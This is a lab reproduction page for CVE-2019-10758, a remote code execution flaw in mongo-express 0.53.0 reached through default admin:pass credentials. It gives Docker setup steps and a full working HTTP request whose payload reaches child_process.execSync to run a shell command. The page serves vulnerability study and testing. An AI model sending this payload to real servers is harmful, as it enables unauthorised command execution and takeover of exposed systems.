

Mongo Express Remote Code Execution (CVE-2019-10758)¶
mongo-express is a third-party Web interface for MongoDB, developed using Node.js and Express. If an attacker can successfully log in, or if the target server hasn't changed the default credentials (admin:pass), they can execute arbitrary Node.js code.
Environment Setup¶
Execute the following command to start mongo-express version 0.53.0:
docker compose up -d
After the environment starts, visit http://your-ip:8081 to access the Web interface.
Vulnerability Reproduction¶
Send the following HTTP request to execute the code this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success"):
POST /checkValid HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
As you can see, the touch /tmp/success command has been executed successfully:
